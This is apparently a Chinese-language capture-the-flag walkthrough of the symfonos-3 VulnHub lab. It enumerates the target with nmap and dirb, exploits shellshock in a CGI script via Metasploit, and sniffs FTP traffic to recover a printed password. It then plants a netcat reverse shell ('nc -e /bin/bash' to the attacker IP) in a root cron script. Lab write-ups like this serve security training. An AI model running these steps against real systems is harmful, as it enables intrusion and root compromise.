# symfonos-3

## 环境

虚拟机平台：VMware Workstation Pro

攻击机：Kali（IP：192.168.253.136）

靶机：symfonos-3（IP：192.168.253.138）

下载：https://www.vulnhub.com/entry/symfonos-3,332/

## Let's go

```
nmap -A 192.168.253.138
```



> **浏览网站没有任何发现**

```
dirb http://192.168.253.138/
```



> **然而还是没有发现，重新枚举，直到。。。**



> **无论访问 /cgi-bin/underworld 哪个页面都显示如下**



> **搜索发现可能存在  shellshock  ，启动msfconsole**

```
search -S cgi shellshock
use 5
show options
```



```
set rhosts 192.168.253.138
set targeturi /cgi-bin/underworld
run
```



> 尝试各种提权失败无果，使用脚本

```
cd /tmp
upload ./Get/pspy32
upload ./Get/LinEnum.sh
chmod 777 pspy32
chmod 777 LinEnum.sh
```



```
shell
python -c 'import pty; pty.spawn("/bin/bash")'
./LinEnum.sh
```





```
./pspy32
```



> **发现计划任务，并且和ftp有关，抓包嗅探一下**

```
tcpdump -D
tcpdump -w ftp.pcap -i lo
```



```
download ftp.pcap ./
```




```
ssh hades@192.168.253.138
password:PTpZTfU4vxgzvRBE
ls -al /opt/ftpclient/
```



> **上面得到过 ftpclient.py 是root的计划任务**

```
cd /opt/ftpclient/
echo 'import os; os.system("nc -e /bin/bash 192.168.253.136 4444")' > ftpclient.py
```



```
nc -lp 4444
cat /root/proof.txt
```

